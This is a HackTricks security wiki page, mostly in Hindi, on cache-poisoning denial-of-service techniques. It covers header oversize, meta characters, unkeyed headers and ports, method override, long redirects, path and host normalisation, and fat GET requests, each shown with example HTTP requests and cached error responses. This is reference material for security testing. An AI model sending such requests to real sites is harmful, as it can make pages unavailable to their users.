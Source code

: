 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
इस पृष्ठ पर आप विभिन्न प्रकार के प्रयास कर सकते हैं ताकि **वेब सर्वर अनुरोधों के लिए त्रुटियों के साथ प्रतिक्रिया दे** जो **कैश सर्वरों के लिए मान्य हैं**
{% endhint %}

* **HTTP Header Oversize (HHO)**

एक अनुरोध भेजें जिसमें हेडर का आकार वेब सर्वर द्वारा समर्थित आकार से बड़ा हो लेकिन कैश सर्वर द्वारा समर्थित आकार से छोटा हो। वेब सर्वर 400 प्रतिक्रिया के साथ प्रतिक्रिया देगा जो कैश किया जा सकता है:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP मेटा कैरेक्टर (HMC) और अप्रत्याशित मान**

एक हेडर भेजें जिसमें कुछ **हानिकारक मेटा कैरेक्टर** जैसे और शामिल हों। हमले के सफल होने के लिए आपको पहले कैश को बायपास करना होगा।
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A badly configured header could be just `\:` as a header.

यह भी काम कर सकता है यदि अप्रत्याशित मान भेजे जाते हैं, जैसे अप्रत्याशित Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

कुछ वेबसाइटें एक त्रुटि स्थिति कोड लौटाएंगी यदि वे अनुरोध में कुछ विशिष्ट हेडर जैसे _X-Amz-Website-Location-Redirect: someThing_ हेडर को **देखती हैं**:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

यदि सर्वर `X-HTTP-Method-Override`, `X-HTTP-Method` या `X-Method-Override` जैसे हेडर के साथ HTTP विधि को बदलने का समर्थन करता है। तो एक वैध पृष्ठ को अनुरोध करना संभव है, विधि को बदलकर ताकि सर्वर इसका समर्थन न करे और एक खराब प्रतिक्रिया कैश हो जाए:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

यदि Host हेडर में पोर्ट प्रतिक्रिया में परिलक्षित होता है और कैश कुंजी में शामिल नहीं होता है, तो इसे एक अप्रयुक्त पोर्ट पर पुनर्निर्देशित करना संभव है:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

जैसे कि निम्नलिखित उदाहरण में, x को कैश नहीं किया जा रहा है, इसलिए एक हमलावर रीडायरेक्ट प्रतिक्रिया के व्यवहार का दुरुपयोग कर सकता है ताकि रीडायरेक्ट एक ऐसा URL भेजे जो इतना बड़ा हो कि यह एक त्रुटि लौटाए। फिर, जो लोग बिना कैश किए गए x कुंजी के URL तक पहुँचने की कोशिश करेंगे, उन्हें त्रुटि प्रतिक्रिया मिलेगी:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **होस्ट हेडर केस सामान्यीकरण**

होस्ट हेडर को केस संवेदनशील नहीं होना चाहिए लेकिन कुछ वेबसाइटें इसे लोअरकेस में अपेक्षित करती हैं, यदि यह नहीं है तो एक त्रुटि लौटाती हैं:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **पथ सामान्यीकरण**

कुछ पृष्ठ त्रुटि कोड लौटाएंगे जब पथ में डेटा URLencode किया जाएगा, हालाँकि, कैश सर्वर पथ को URLdecode करेगा और URLdecoded पथ के लिए प्रतिक्रिया को संग्रहीत करेगा:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

कुछ कैश सर्वर, जैसे Cloudflare, या वेब सर्वर, बॉडी के साथ GET अनुरोधों को रोकते हैं, इसलिए इसका दुरुपयोग एक अमान्य प्रतिक्रिया को कैश करने के लिए किया जा सकता है:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## संदर्भ

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
